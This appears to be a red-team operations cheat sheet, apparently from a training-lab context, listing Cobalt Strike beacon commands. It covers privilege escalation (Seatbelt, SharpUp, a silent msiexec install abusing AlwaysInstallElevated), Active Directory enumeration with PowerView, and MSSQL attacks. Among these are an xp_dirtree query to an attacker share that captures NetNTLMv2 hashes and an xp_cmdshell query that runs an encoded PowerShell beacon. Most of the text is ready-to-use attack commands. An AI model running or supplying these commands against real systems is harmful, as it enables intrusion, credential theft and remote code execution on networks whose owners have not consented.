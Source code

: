 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
  
Get Available Shares (important for lateral movement and GPO Abuses):
  
> beacon> powershell Find-DomainShare -CheckShareAccess
  
## MSSQL
  
### Enum

Import PowerUpSQL

Execute following statements from Domain-User context (AD Authentication on MSSQL hosts):

Enum SQL Instance:

> beacon> powershell Get-SQLInstanceDomain
  
Test connection:

> beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

Retrieve additional Instance Information:
 
> beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
  
Test execution:

> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "select @@servername"
  
Proxychains for direct connection:
  
> root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DOMAIN/USER@TARGET
  
NetNTLMv2 via xp_dirtree (Inveigh on Host in target network, or smbserver on Kali with WinDivert + rportfwd):
  
> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "EXEC xp_dirtree '\\IP\pwn', 1, 1"

Query to execute beacon on the instance directly:

> SELECT * FROM OPENQUERY("[targetserver]", 'select @@servername; exec xp_cmdshell ''powershell -enc [EncodedString]''');
